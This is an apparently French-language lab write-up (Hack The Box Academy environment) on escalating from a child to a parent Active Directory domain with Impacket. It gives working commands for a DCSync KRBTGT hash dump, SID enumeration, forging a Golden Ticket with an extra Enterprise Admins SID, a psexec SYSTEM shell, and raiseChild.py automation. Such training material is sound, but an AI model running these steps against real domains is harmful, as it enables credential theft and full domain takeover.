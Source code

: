 # Attaque des Domain Trusts – De l’Enfant vers le Parent (Linux)

***

## <mark style="color:red;">**1. Prérequis / Données nécessaires**</mark>

Pour lancer l’attaque, vous devez recueillir les éléments suivants :

* **Hash KRBTGT du domaine enfant**\
  (extrait via DCSync)
* **SID du domaine enfant**\
  (à récupérer par brute force avec lookupsid.py)
* **Nom d’un utilisateur cible** dans le domaine enfant (ex : _hacker_ — il peut ne pas exister)
* **FQDN du domaine enfant**\
  (exemple : `LOGISTICS.INLANEFREIGHT.LOCAL`)
* **SID du groupe Enterprise Admins du domaine parent**\
  (construit à partir du Domain SID parent + RID bien connu, ex : RID 519)

***

## <mark style="color:red;">**2. Récupération des informations sur le domaine enfant**</mark>

<mark style="color:green;">**a) Extraction du hash KRBTGT avec secretsdump.py**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```
{% endcode %}

* **But :** Utiliser la méthode DRSUAPI pour obtenir les secrets de la base NTDS.DIT et extraire le hash NTLM (ainsi que les clés Kerberos) du compte KRBTGT.

<mark style="color:green;">**b) Obtention du SID du domaine enfant avec lookupsid.py**</mark>

{% code fullWidth="true" %}
```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
```
{% endcode %}

* **But :** Brute-forcer les SID et afficher la liste des comptes.
* **Astuce :** Filtrer la sortie (avec `grep "Domain SID"`) pour isoler le SID du domaine enfant, par exemple :\
  `S-1-5-21-2806153819-209893948-922872689`.

***

## <mark style="color:red;">**3. Récupération des informations sur le domaine parent**</mark>

<mark style="color:green;">**a) Récupérer le Domain SID du parent**</mark>

Exécutez lookupsid.py contre le DC du domaine parent :

{% code overflow="wrap" fullWidth="true" %}
```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```
{% endcode %}

* **But :** Identifier le Domain SID du domaine parent, par exemple :\
  `S-1-5-21-3842939050-3880317879-2865463114`.
* **Remarque :** Pour obtenir le SID complet du groupe Enterprise Admins, vous devez y ajouter le RID (généralement **519**).

***

## <mark style="color:red;">**4. Création d’un Golden Ticket avec ticketer.py**</mark>

Utilisez **ticketer.py** en fournissant les éléments suivants :

* **-nthash** : le hash KRBTGT du domaine enfant
* **-domain** : le FQDN du domaine enfant
* **-domain-sid** : le SID du domaine enfant
* **-extra-sid** : le SID du groupe Enterprise Admins du domaine parent (ex. `S-1-5-21-3842939050-3880317879-2865463114-519`)
* **Nom de l’utilisateur cible** (ex : _hacker_)

```bash
ticketer.py -nthash 9d765b482771505cbe97411065964d5f \
  -domain LOGISTICS.INLANEFREIGHT.LOCAL \
  -domain-sid S-1-5-21-2806153819-209893948-922872689 \
  -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

* **But :** Générer un Golden Ticket qui sera valide pour les ressources du domaine enfant ET du domaine parent.
* **Résultat :** Le ticket est sauvegardé dans un fichier (ex : `hacker.ccache`).

***

## <mark style="color:red;">**5. Utilisation du Golden Ticket**</mark>

<mark style="color:green;">**a) Définir la variable d’environnement KRB5CCNAME**</mark>

```bash
export KRB5CCNAME=hacker.ccache
```

* **But :** Indiquer au système d’utiliser ce fichier ccache pour l’authentification Kerberos.

<mark style="color:green;">**b) Accès au DC du domaine parent via psexec.py**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```
{% endcode %}

* **But :** Utiliser le Golden Ticket pour se connecter au DC et obtenir un shell SYSTEM.

***

## <mark style="color:green;">**6. Automatisation avec raiseChild.py**</mark>

**raiseChild.py** simplifie l’ensemble du processus :

{% code fullWidth="true" %}
```bash
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
{% endcode %}

Le script effectue les actions suivantes :

1. **Découverte du DC** du domaine enfant et détection du FQDN du domaine parent.
2. **Récupération du SID d’Enterprise Admins** du domaine parent.
3. **Extraction des credentials KRBTGT** pour les domaines enfant et parent.
4. **Création d’un Golden Ticket** intégrant le SID supplémentaire (extra-sid).
5. **Authentification et récupération des credentials** (par défaut de l’administrateur du domaine parent).
6. **Lancement d’une session PSEXEC** sur le DC cible pour obtenir un shell SYSTEM.

***
